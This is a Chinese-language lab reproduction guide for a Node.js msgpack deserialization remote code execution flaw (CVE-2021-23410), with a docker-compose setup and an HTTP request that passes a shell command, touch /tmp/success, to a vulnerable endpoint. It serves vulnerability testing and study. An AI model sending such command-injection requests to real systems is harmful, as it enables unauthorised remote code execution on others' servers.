 # Nodejs msgpack 反序列化RCE（CVE-2021-23410）

## 影响版本

msgpack <= 1.0.3

## 环境搭建

```
docker-compose up -d
```

环境中 接收到 用户传入的cmd，序列化后再反序列化，最终RCE

## 复现

P.S. 以 cmd=touch /tmp/success 为例

1.  发送 cmd

```
GET /run?cmd=touch+/tmp/success HTTP/1.1
Host: xxxx:9999
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: sessionhash=0e86ef62fc1add2bd8aeae0e6a42124e; lastvisit=1626697934; lastactivity=1626698057; PHPSESSID=6irgn74mso2nrn23i6i4dent01; security=low
Connection: close
Content-Length: 0


```

![1.png](1.png)

2. 成功 RCE

![2.png](2.png)


